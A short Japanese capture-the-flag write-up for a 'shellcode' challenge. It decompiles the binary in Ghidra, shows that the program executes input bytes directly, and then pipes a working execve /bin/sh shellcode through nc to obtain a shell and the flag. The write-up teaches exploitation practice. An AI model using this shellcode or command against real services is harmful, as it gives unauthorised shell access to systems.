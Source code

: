 `file` コマンドで `shellcode` がどのようなファイルか確認してみましょう。

```
$ file shellcode
shellcode: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3658bbbb3a87143505daa8ebe8bc00220aa93cc1, not stripped
```

x86-64 の ELF のようです。どのような処理をしているか [Ghidra](https://ghidra-sre.org/) で開いてデコンパイルしてみましょう。

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  code local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("I will execute your code instead of you. Give me machine code bytes: ");
  fflush(stdout);
  fgets((char *)local_58,0x40,stdin);
  puts("Executing...");
  (*local_58)();
  puts("Since you reached here I bet you got the FLAG. Bye.");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

入力したバイト列をそのまま命令列として実行してくれるようです。[`execve` で `/bin/sh` を実行するシェルコード](http://shell-storm.org/shellcode/files/shellcode-806.php)を投げてみましょう。

```
$ (echo -en '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'; cat) | nc (省略)
80
I will execute your code instead of you. Give me machine code bytes: ls
ls -la
total 28
drwxr-xr-x 1 root pwn  4096 Jan 25 12:27 .
drwxr-xr-x 1 root root 4096 Jan 25 12:27 ..
-r--r----- 1 root pwn    33 Jan 25 12:26 flag.txt
-r-xr-x--- 1 root pwn    41 Jan 25 12:26 redir.sh
-r-xr-x--- 1 root pwn  8576 Jan 25 12:26 shellcode
cat flag.txt
NITAC{I_g4ve_up_cr0ss_comp1ling}
```

フラグが得られました。
